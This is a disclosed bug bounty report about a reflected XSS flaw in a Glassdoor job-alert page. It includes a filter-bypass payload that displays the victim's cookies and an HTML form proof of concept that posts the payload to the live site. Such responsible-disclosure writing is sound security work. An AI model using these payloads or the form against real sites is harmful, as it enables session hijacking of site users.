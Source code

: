 # [XSS] Reflected XSS via POST request in (editJobAlert.htm) file

## Report Details
- **Report ID**: 838910
- **URL**: https://hackerone.com/reports/838910
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-04T16:02:43.409Z
- **Disclosed**: 2021-04-16T02:36:05.698Z

## Reporter
- **Username**: flex0geek
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
### Description:

first, it was a very good bug for me it starts when I was testing the form for I found a CSRF I sent it here #838778 I tested the form again and after few minutes I found that this parameter `locationId` in the post request is vulnerable to XSS the page take the value of this parameter and add it to `a` tag here
```
<a href='/Job/jobs.htm?sc.keyword=&locId=3438985'>
```
i added this value `flex0'` and I could get out of the `href` attribute so I closed the tag too using `>` and now i start my journey to found a valid payload which can work with this filter I tried a looooooot of payloads it takes me hours to bypass the filter block this values `alert, confirm, write, prompt` if there is any value after it i tried a lot of encoding to bypass it but nothing works with me so i start to think out of the box and search on google too and I got this one `[0].find(confirm)` this value is equal to `confirm(0)` so it can work and there is nothing blocked on this value so I added my payload here
```
'><marquee onstart="[cookie].find(confirm)">
```
this payload will pop up with the cookies of the victim now because it was in a POST request I used it with an HTML code here
```html
<form action="https://www.glassdoor.com/profile/editJobAlert.htm" method="post">
    <input type="text" name="setupJobAlertEmail" value="false"><br>
    <input type="text" name="userValidationKey" value=""><br>
    <input type="text" name="key" value=""><br>
    <input type="text" name="jobAlertId" value="[the id of the jobalert]"><br>
    <input type="text" name="JAK" value=""><br>
    <input type="text" name="reactivation" value="false"><br>
    <input type="text" name="linkOrigin" value=""><br>
    <input type="text" name="keywords" value="[the name]"><br>
    <input type="text" name="rawLocationName" value="Cairo"><br>
    <input type="text" name="locationType" value="C"><br>
    <input type="text" name="locationId" value="3438985"><br>
    <input type="text" name="emailFrequency" value="WEEKLY"><br>
    <input type="submit" value="send">
</form>
```
the payload will be added in the `locationId` parameter in this code notice that we can make the form send the request automaticly without any interaction from the user but in my POC I didn't use that because I changed the value a lot to prove the bug in the Video POC is involve the coockies and the domain name and a value too so i can use it as Full XSS the Vidoe is here

{F773437}

### Steps:

1. take the value and add to HTML file and add your payload in `locationId`
2. open this file in your browser and send the request
3. you will see that the payload works and the pop-up happened


### Fix:

you should add a function to encode the value of this parameter with HTML encode like other parameters

## Impact

I can execute JS code on the websites's users.

## Attachments
- xss_poc.wmv
